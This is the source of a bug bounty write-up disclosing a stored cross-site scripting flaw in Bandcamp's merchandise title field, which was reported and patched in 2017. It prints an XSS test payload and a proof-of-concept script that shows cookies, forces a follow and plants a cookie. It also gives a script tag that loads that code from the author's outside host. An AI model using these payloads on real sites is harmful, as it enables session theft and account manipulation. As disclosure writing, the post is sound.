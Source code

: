 ```yaml
---
layout: post
title: "Stored XSS in BandCamp"
author: Corben Leo
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Recently, while my friend <a href="https://twitter.com/Alyssa_Herrera_" rel="noopener noreferrer" style="color:#DC0739;text-decoration:none;"><b>Alyssa Herrera</b></a> and I were collaborating on finding ffmpeg vulnerabilities in bug bounty programs, we came to learn that **Bandcamp** ran a bug bounty program. If you have never heard of BandCamp, it is essentially a platform that allows artists, fans, and labels to interact, connect, and support each other.

I instantly was curious to see what I could find, so I signed up for an artist account and created a Bandcamp page. The first function I started to test was the **Add Music** function. This part of the site allows artists to add albums and tracks. I tested for IDOR and XSS, but sadly it wasn't vulnerable to either.

The next function I thought I wanted to test was the **Add Merch** function. There were 2 main parameters in this function that I wanted to test for XSS in immediately. I wanted to see if either the *Item Title* or *Description* accepted / rendered any HTML.
I put in a simple XSS payload for both:  `<svg/onload=confirm(0)>`

I saved and published the new "merchandise", and voila:
NOTHING happened. It was sanitized and I was bummed that it didn't work.
Then I saw the **Buy Now** button, so I clicked it, which opened a new frame and my XSS fired! They were not correctly sanitizing the **Item Title** in this frame, thus allowing an attacker to simply insert any HTML or javascript.

I am always reluctant in submitting an XSS with merely alert() because it just shows I was too lazy to actually come up with a cool proof-of-concept.
With that in mind, I came up with this POC:
```javascript
alert("Stored XSS on BandCamp");
alert("Your cookies: " + document.cookie);
document.getElementById("follow-unfollow").click();alert("Thanks for the follow :^D");
document.cookie="hacker=cdl;path=/;domain=.bandcamp.com";  
```
Then changed the **Item Title** to `<script src=//C0RB3N.pro/bandcamp.js></script>`
which made the victim follow me and set the cookie "hacker" to "cdl" for bandcamp.com and all subdomains in their browser!
<br>Proof of concept video:
<iframe src="https://player.vimeo.com/video/224109910" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (6/29/2017) Reported XSS to Bandcamp via Email
- (6/30/2017) Confirmed, Patched, & Awarded with a $500 bounty!  

<br>
Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/C0RB3N"  target="_blank" rel="noopener noreferrer">https://github.com/sxcurity</a>

